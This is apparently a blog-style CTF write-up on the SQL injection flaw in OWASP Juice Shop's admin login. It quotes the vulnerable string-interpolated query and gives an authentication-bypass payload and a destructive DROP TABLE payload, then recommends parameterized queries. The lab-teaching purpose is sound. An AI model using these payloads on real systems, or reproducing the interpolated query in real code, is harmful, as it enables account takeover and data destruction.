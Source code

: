 ```yaml
---
title: OWASP Juice Shop Admin Login
heroImage: ../../assets/images/OWASP_JS/img/inject.png
category: CTF
description: Explore SQL Injection.
pubDate: 2025-03-16T23:00:00.000Z
tags:
  - OWASP Juice Shop
  - Hacking Tip
  - SQLi
---
```


This blog explains a breakdown of the SQLi vulnerbility in LoginAdmin page of OWASP juice shop

## Code Review

```
models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}'
AND password = '${security.hash(req.body.password || '')}'
AND deletedAt IS NULL`, { model: models.User, plain: true })

```

- The values req.body.email and security.hash(req.body.password) are directly inserted into the SQL query as string interpolation.
- This makes the query vulnerable to SQL Injection if an attacker provides malicious input.

## How can an Attacker Exploit This

If an attacker enters this in the email field:

```
admin' or 1=1;--
```

Then the query becomes:

```
SELECT * FROM Users WHERE email = 'admin' OR '1'='1';
AND password = 'somehash'
AND deletedAt IS NULL
```

Breaking it down:

- email = 'admin' → Checks if the username is admin.
- 1=1 → Always TRUE (since 1=1 is always true).
- -- → This is a comment in SQL, which ignores the rest of the query (AND password = '' is ignored).

- Since '1'='1' is always true, the query could return the all users, bypassing authentication.
- An attacker could log in as the first user in the database (often an admin).

More Advanced Attack
Attacker inputs

```
'; DROP TABLE Users; --
```

The SQL query might execute:

```
SELECT * FROM Users WHERE email = ''; DROP TABLE Users; --' AND password = 'somehash' AND deletedAt IS NULL
```

### Takeaways

1. admin' OR 1=1;-- bypasses authentication by always making the condition true.
2. Using raw SQL queries with user input is dangerous (unless properly handled).
3. Fix it with parameterized queries or ORM methods.
4. Enhance security with rate limiting, MFA, and password hashing.
